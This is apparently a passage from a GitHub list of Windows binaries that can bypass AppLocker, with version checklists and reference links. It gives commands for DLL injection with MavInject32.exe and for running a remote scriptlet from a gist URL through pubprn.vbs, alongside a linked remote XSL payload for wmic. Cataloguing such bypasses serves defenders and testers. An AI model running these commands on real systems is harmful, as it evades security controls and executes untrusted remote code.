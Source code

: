 Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes: 

* Links:
  * https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  * https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html   
  * https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/8574e0c019b17d84028833220ed0b30cf9eea84b/minimalist.xsl   
   
   
      
## MavInject32.exe

```
MavInject32.exe <PID> /INJECTRUNNING <PATH DLL>
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes: 

* Links:
  * https://twitter.com/gN3mes1s/status/941315826107510784
  * https://twitter.com/Hexacorn/status/776122138063409152
   
   
   
## Pubprn.vbs

```
pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT  
